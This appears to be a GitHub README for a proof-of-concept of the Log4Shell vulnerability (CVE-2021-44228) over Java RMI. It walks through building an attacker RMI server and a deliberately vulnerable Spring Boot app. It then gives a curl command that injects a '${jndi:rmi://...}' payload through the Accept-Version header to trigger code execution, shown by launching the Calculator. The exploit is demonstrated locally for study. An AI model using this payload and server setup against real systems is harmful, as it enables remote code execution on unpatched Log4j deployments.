 # log4shell-rmi-poc
A Proof of Concept of the Log4j vulnerability (CVE-2021-44228) over Java-RMI
<br/>
It uses Log4j 2.5.7 from spring-boot-starter-log4j2


## Requirements:

Tested with Java 8 (JDK 1.8.0_25) and Java 11 (JDK 11.0.1)

## How to run the POC

### 1. Clone the repo:
```bash
git clone https://github.com/Labout/log4shell-rmi-poc.git
```

### 2. Start the attacker RMI Server

```bash
cd Log4jshell_rmi_server

./mvnw clean package

java -jar target/Log4jshell.rmi.server-0.0.1-SNAPSHOT.jar
```

You should get something like this:

![rmi server](./rmi_server.png)


### 3. Start the vulnerable Log4j application (here a spring boot application)

In a new Terminal 

```bash
cd vulnerabel_log4j_app

./mvnw clean package

java -jar target/vulnerabel_log4j_app-0.0.1-SNAPSHOT.jar
```


### 4. Inject a vulnerable JNDI over the "Accept-version" header

```bash
curl 'http://localhost:8080/hello' --header 'Accept-Version: ${jndi:rmi://127.0.0.1:1099/ExecByEL}'
```

As you can see the the vulnerable app calls the Calculator app.

![exploit](./exploit.png)

## References 
https://www.cisecurity.org/log4j-zero-day-vulnerability-response/
<br>
https://www.lunasec.io/docs/blog/log4j-zero-day/
